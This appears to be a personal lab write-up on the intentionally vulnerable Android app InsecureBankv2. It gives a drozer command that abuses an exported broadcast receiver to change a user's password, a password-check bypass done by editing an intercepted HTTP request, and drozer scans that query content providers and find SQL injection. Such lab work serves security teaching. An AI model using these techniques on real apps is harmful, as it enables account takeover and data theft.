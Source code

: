 # Insecure Bank v2

## Setup

```
git clone https://github.com/dineshshetty/Android-InsecureBankv2.git
cd AndroLabServer
pip install -r requirements.txt
python app.py
```

Create an AVD using Genymotion.
In virtualbox settings: Adapter1 => Bridged, Adapter2 => NAT
My Genymotion wasn't working, but Android Emulator worked.

-----

Checklist

- [ ] Flawed Broadcast Receivers
- [ ] Intent Sniffing and Injection
- [ ] Weak Authorization mechanism
- [ ] Local Encryption issues
- [ ] Vulnerable Activity Components
- [ ] Root Detection and Bypass
- [ ] Emulator Detection and Bypass
- [ ] Insecure Content Provider access
- [ ] Insecure Webview implementation
- [ ] Weak Cryptography implementation
- [ ] Application Patching
- [ ] Sensitive Information in Memory
- [ ] Insecure Logging mechanism
- [ ] Android Pasteboard vulnerability
- [ ] Application Debuggable
- [ ] Android keyboard cache issues
- [ ] Android Backup vulnerability
- [ ] Runtime Manipulation
- [ ] Insecure SDCard storage
- [ ] Insecure HTTP connections
- [ ] Parameter Manipulation
- [ ] Hardcoded secrets
- [ ] Username Enumeration issue
- [ ] Developer Backdoors
- [x] Weak change password implementation

-----

## Flawed Broadcast Receivers

In AndroidManifest.xml, we have this code:

```
<receiver android:name="com.android.insecurebankv2.MyBroadCastReceiver" android:exported="true">
    <intent-filter>
        <action android:name="theBroadcast"/>
    </intent-filter>
</receiver>
```

We see that it uses the class MyBroadCastReceiver.java, so we'll go over the code in that file.

This class takes the phone number and new password from the previous activity.

```
String phn = intent.getStringExtra("phonenumber");
String newpass = intent.getStringExtra("newpass");
```

After searching for the usages of "theBroadcast" we find that it is used in ChangePassword.java as follows:

```
public void broadcastChangepasswordSMS(String phoneNumber, String pass) {
    if (TextUtils.isEmpty(phoneNumber.toString().trim())) {
        System.out.println("Phone number Invalid.");
        return;
    }
    Intent smsIntent = new Intent();
    smsIntent.setAction("theBroadcast");
    smsIntent.putExtra("phonenumber", phoneNumber);
    smsIntent.putExtra("newpass", pass);
    sendBroadcast(smsIntent);
}
```

So if we can create a similar intent in another app, we can change the password of the user by calling the Context.sendBroadcast(Intent) as mentioned in the [BroadcastReceiver](https://developer.android.com/reference/android/content/Context#sendBroadcast(android.content.Intent)) documentation.

```
run app.broadcast.send --action theBroadCast --component com.android.insecurebankv2.MyBroadCastReceiver --extra string phonenumber 1234 --extra newpass ilovethewanted
```

A real-life example example can be found in [this](https://hackerone.com/reports/289000) report.


## Weak change password implementation

Client-side check requires password to be complex, but can be circumvented by intercepting and modifying request through a proxy.

```
POST /changepassword HTTP/1.1
Content-Length: 46
Content-Type: application/x-www-form-urlencoded
Host: 10.0.2.2:8888
Connection: close
User-Agent: Apache-HttpClient/UNAVAILABLE (java 1.4)

username=dinesh&newpassword=dinesh
```

-----

## Other notes

### Login Screen

Intercepting the request in Burp Suite

```
POST /login HTTP/1.1
Content-Length: 40
Content-Type: application/x-www-form-urlencoded
Host: 10.68.0.181:8888
Connection: close
User-Agent: Apache-HttpClient/UNAVAILABLE (java 1.4)

username=dinesh&password=Dinesh%40123%24
```

- Trivial SQL injection doesn't work.

### Transfer Screen

Get Accounts

```
POST /getaccounts HTTP/1.1
Content-Length: 40
Content-Type: application/x-www-form-urlencoded
Host: 10.0.2.2:8888
Connection: close
User-Agent: Apache-HttpClient/UNAVAILABLE (java 1.4)

username=dinesh&password=Dinesh%40123%24
```

Do Transfer

```
POST /dotransfer HTTP/1.1
Content-Length: 88
Content-Type: application/x-www-form-urlencoded
Host: 10.0.2.2:8888
Connection: close
User-Agent: Apache-HttpClient/UNAVAILABLE (java 1.4)

username=dinesh&password=Dinesh%40123%24&from_acc=888888888&to_acc=666666666&amount=2000
```

### Drozer

```
# getting attack surface
dz> run app.package.attacksurface com.android.insecurebankv2
Attack Surface:
  5 activities exported
  1 broadcast receivers exported
  1 content providers exported
  0 services exported
    is debuggable

# content-providers
dz> run app.provider.info -a com.android.insecurebankv2
Package: com.android.insecurebankv2
  Authority: com.android.insecurebankv2.TrackUserContentProvider
    Read Permission: null
    Write Permission: null
    Content Provider: com.android.insecurebankv2.TrackUserContentProvider
    Multiprocess Allowed: False
    Grant Uri Permissions: False

# content-provider URIs
dz> run scanner.provider.finduris -a com.android.insecurebankv2
Scanning com.android.insecurebankv2...
Unable to Query  content://com.android.insecurebankv2.TrackUserContentProvider/
Unable to Query  content://com.google.android.gms.games
Unable to Query  content://com.android.insecurebankv2.TrackUserContentProvider
Able to Query    content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers
Able to Query    content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/
Unable to Query  content://com.google.android.gms.games/

Accessible content URIs:
  content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers
  content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/

# content-providers retrieve information

dz> run app.provider.query content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/
| id | name   |
| 1  | dinesh |
| 2  | dinesh |
| 3  | dinesh |

# content-provider injection
dz> run scanner.provider.injection -a com.android.insecurebankv2
Scanning com.android.insecurebankv2...
Not Vulnerable:
  content://com.android.insecurebankv2.TrackUserContentProvider/
  content://com.google.android.gms.games
  content://com.google.android.gms.games/
  content://com.android.insecurebankv2.TrackUserContentProvider

Injection in Projection:
  content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers
  content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/

Injection in Selection:
  content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers
  content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/
```

